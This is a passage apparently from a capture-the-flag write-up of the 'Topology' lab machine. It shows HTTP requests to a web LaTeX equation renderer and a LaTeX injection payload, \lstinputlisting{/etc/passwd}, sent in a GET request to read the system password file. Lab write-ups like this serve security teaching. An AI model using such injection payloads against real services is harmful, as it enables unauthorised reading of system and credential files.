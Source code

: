 ```http
GET /equation.php?eqn=+%09%5Cfrac%7Bx%2B5%7D%7By-3%7D&submit= HTTP/1.1
Host: latex.topology.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://latex.topology.htb/equation.php
Upgrade-Insecure-Requests: 1
```

![latex example](/images/topology_latex_example.png)

Googling for LaTex vulnerabilities shows the existence of so called [LaTex injection attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)  
  
Lets try to read a file from the target system  
LaTex payload:
```latex
$\lstinputlisting{/etc/passwd}$
```

```http
GET /equation.php?eqn=$\lstinputlisting{/etc/passwd}$&submit= HTTP/1.1
Host: latex.topology.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://latex.topology.htb/equation.php
Connection: close
Upgrade-Insecure-Requests: 1
```
